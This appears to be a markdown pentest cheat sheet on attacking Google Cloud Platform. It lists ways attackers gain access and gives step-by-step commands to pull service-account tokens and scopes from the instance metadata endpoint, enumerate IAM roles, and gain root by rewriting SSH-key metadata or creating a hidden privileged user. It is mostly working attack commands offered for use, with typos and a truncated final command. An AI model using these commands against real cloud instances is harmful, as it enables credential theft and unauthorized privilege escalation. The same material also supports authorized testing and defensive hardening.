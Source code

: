 # Overview
## How do attackers gain access to GCP?
* 3rd Parties
	A 3rd party is doing malicious things that you are unaware of
	A 3rd party you trust is compromised
* Git Repositories
	Misconfigured repositories leaking sensitive data
	Mistakes in commits, publishing sensitive data
* Application/Server Level Vulnerabilities
	Credentials stored locally stolen through local file inclusion (LFI) or remote code execution (RCE)
	Credentials stolen through a servers metadata through server-side request forgery (SSRF) or RCE
* Password Reuse
	An old 3rd party database is compromised, your users are still using a compromised password
	Users using the same password across many accounts
* Social Engineering
	Phishing emails or pretext calls
	Physical vectors
* Internal Employees
	Employees getting compromised, then bringing that to your environment
	Employee mistakes leading to unintended consequences

## Comon atacks
* Escalation controls for all members with access to your environment.
* Lack of privilege assessment
* Analysis and exploitation of the Kubernetes engine configuration.
* Security mechanisms testing.
* Best practices analysis: event logs / Stackdriver monitoring, encryption, built-in security tools, etc.
* External perimeter assessment testing
* Elevation of privileges and abuse between users / projects
* Revision of cloud configurations and code of cloud functions
* Pivoting between cloud environments. (abuse of multi-cloud approvals)

## GCP basic structure
Organization
--> Folders
  --> Projects
    --> Resources

# Tactics
## Gathering
* Inspect Metadata endpoint
   169.254.169.254 metadata.google.internal
   Example: curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H "Metadata-Flavor: Google"
* Default SA on compute Engine
	Every GCP project has a default service account, and this will be assigned to new Compute Instances unless otherwise specified
	```gcloud auth list```
	Default looks like:
		PROJECT_NUMBER-compute@developer.gserviceaccount.com
		PROJECT_ID@appspot.gserviceaccount.com
	Custom looks like:
		SERVICE_ACCOUNT_NAME@PROJECT_NAME.iam.gserviceaccount.com
* See what scopes are assigned by querying the metadata URL
	``` curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes \
    -H 'Metadata-Flavor:Google' ```
    - with no scope limitations: https://www.googleapis.com/auth/cloud-platform
* Enumerate roles assigned to your service account project-wide in the current project:
    Long:
	``` 
	PROJECT=$(curl http://metadata.google.internal/computeMetadata/v1/project/project-id -H "Metadata-Flavor: Google" -s)
    ACCOUNT=$(curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/email -H "Metadata-Flavor: Google" -s)
    gcloud projects get-iam-policy $PROJECT --flatten="bindings[].members" --format='table(bindings.role)' --filter="bindings.members:$ACCOUNT"
	```
	Short:
	``` gcloud projects get-iam-policy [PROJECT-ID] ```
	``` gcloud compute instances get-iam-policy [INSTANCE] --zone [ZONE] ```
* Retrieve and inspect the token:
  ``` 
  curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" \
    -H "Metadata-Flavor: Google"
  ```

## Local privilege escalation
* Modifying the metadata
	- Whit Default service account:
		> Web management console offers the following options for access scopes: 
				Allow default access (default)
				Allow full access to all Cloud APIs
				Set access for each API
		¡¡If option 2 was selected, or option 3 while explicitly allowing access to the compute API, then this configuration is vulnerable to escalation!!
	- Whit Custom service account:
		> One of the following IAM permissions is necessary to escalate privileges:
				compute.instances.setMetadata (to affect a single instance)
				compute.projects.setCommonInstanceMetadata (to affect all instances in the project)
* Add SSH keys to custom metadata
	- LCheck the instance for existing SSH keys. Pick one of these users as they are likely to have sudo rights.
	``` gcloud compute instances describe [INSTANCE] --zone [ZONE] ```
	- Look for somthig like:
	```
	metadata:
	   fingerprint: QCZfVTIlKgs=
	   items:
	   ...
	   - key: ssh-keys
	     value: |-
	       [USERNAME]:ssh-rsa AAAAB3NzaC1yc ............
	```
    - Save the lines with usernames and keys in a new text file called meta.txt
    - Generate a new key for ourselves like this:
    ```ssh-keygen -t rsa -C "[USERNAME]" -f ./key -P "" && cat ./key.pub```
    - Take the output of the command above and use it to add a line to the meta.txt file you create above, ensuring to add [username]: to the beggining of your new public key.
    - re-write the SSH key metadata for your instance with the following command:
    ```
    gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
    ```
    - You can now access a shell in the context of alice as follows:
    ``` lowpriv@instance:~$ ssh -i ./key [USERNAME]@localhost `
	[USERNAME]@instance:~$ sudo id
	uid=0(root) gid=0(root) groups=0(root)
	```
* Create a new privileged user
	- define the new account username
     ```NEWUSER="definitelynotahacker"```
	- create a key
	```ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""```
	- create the input meta file
	```NEWKEY="$(cat ./key.pub)"
	echo "$NEWUSER:$NEWKEY" > ./meta.txt```
	- update the instance metadata
	```gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt```
	- ssh to the new account
	```ssh -i ./key "$NEWUSER"@localhost```

* Using OS Login
	- OS Login is enabled at the project or instance level using the metadata key of enable-oslogin = TRUE
	- OS Login with two-factor authentication is enabled in the same manner with the metadata key of enable-oslogin-2fa = TRUE

## Lateral movement
* List more VM ``` gcloud compute instances lis ```
